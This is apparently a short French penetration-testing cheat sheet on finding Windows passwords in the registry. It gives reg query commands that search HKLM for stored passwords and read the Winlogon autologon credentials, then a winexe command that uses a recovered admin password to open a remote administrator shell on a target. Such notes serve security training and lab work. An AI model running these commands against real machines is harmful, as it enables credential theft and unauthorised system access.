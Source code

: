 # Mots de passe 

## Registre
(Pour une raison quelconque, le mot de passe n'est parfois pas stocké dans le registre)
Le registre peut être recherché pour les clés et les valeurs contenant le mot "password":
```sh
reg query HKLM /f {password} /t REG_SZ /s
```

Si vous souhaitez gagner du temps, interrogez cette clé spécifique pour trouver les identifiants de connexion automatique de l'administrateur:

```sh
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```

Sur Kali, utilisez la commande winexe pour générer une invite de commande s'exécutant avec les privilèges d'administrateur (mettez à jour le mot de passe avec celui que vous avez trouvé):

```sh
winexe -U 'admin%password' //@TARGET_IP cmd.exe
```
